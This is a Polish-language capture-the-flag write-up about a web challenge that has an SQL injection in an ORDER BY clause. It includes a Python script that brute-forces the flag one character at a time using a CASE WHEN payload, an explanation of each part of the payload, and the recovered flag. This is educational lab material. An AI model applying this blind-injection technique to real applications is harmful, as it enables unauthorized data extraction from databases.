

# Wygląd platformy



# Wektor ataku
```python
let query = `SELECT * FROM emojis ORDER BY ${ order }`;
```


# Fragment exploita

```python
...

# znalezione wcześniej
table_name = "flag_82f881e798"

leaked_data = list("CHTB{")

# &, %, $   to znaki specjalne dla SQL    
bruteforce_alphabet = string.printable.replace("&", "").replace("%", "").replace("$", "")

while True:
    for character in bruteforce_alphabet:
        # SQL jako początkowy indeks bierze 1
        position = len(leaked_data) + 1

        # wyślij requesta z payloadem i odbierz odpowiedź
        r = requests.post(
            url + "api/list",
            data ={
                "order": f"(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END) ASC "
            }
        )

        # przetwórz odpowiedź jako JSON
        j = r.json()

        # jeśli trafiłeś na dobry znak to szukaj kolejnego
        if j[0] == {'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}:
            leaked_data.append(character)
            break

        print(f"proba {''.join(leaked_data) + character}")

...
```

# 1.
```sql
(SELECT SUBSTR(flag,{position},1) FROM {table_name})
```
> wybierz jeden znak z pola **flag** na pozycji **position** z tabeli **flag_82f881e798**

# 2.
```sql
CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END
CASE WHEN (...)='{character}' THEN count ELSE id END
```
> jeśli znak się zgadza sortuj według **count**, jeśli nie to według **id**

# 3.
```sql
(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END) ASC
(...) ASC  
```
> sortuj **rosnąco (ascending)** po wybranej kolumnie

## Przypadek count (znak pasuje)

```sql
let query = `SELECT * FROM emojis ORDER BY count ASC`;
```

`{'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}`

## Przypadek id (znak NIE pasuje)

```sql
let query = `SELECT * FROM emojis ORDER BY id ASC`;
```

`{'id': 1, 'emoji': '👽', 'name': 'alien', 'count': 13}`

# Wynik
```
...
Hit: CHTB{order_me_this_juicy_
Hit: CHTB{order_me_this_juicy_i
Hit: CHTB{order_me_this_juicy_in
Hit: CHTB{order_me_this_juicy_inf
Hit: CHTB{order_me_this_juicy_info
Hit: CHTB{order_me_this_juicy_info}
```

